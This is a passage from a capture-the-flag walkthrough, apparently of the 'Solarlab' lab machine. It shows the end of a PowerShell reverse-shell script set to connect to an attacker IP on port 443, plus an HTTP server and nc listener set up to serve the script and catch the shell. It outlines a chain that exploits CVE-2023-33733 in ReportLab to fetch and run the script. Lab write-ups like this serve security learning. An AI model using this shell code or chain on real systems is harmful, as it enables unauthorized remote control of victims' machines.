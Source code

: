 ```powershell
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.95 -Port 443
```

Now I will start the http server to share this file:

```bash
❯ ls
shell.ps1
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

And a nc listener to receive the shell:

```bash
❯ rlwrap nc -lvnp 443
listening on [any] 443 ...
```

In conclusion, the attack chain will be:

```plaintext
report page uses ReportLab pdf library -> exploit CVE-2023-33733 -> execute command to interpret the powershell script from attacker's http server -> reverse shell on port 443 of attacker
```

The only thing left is to insert the html in the justification field to trigger the vulnerability. However, it says "character limit exceeded":

![](/assets/images/Solarlab/Pasted%20image%2020240921114440.png)
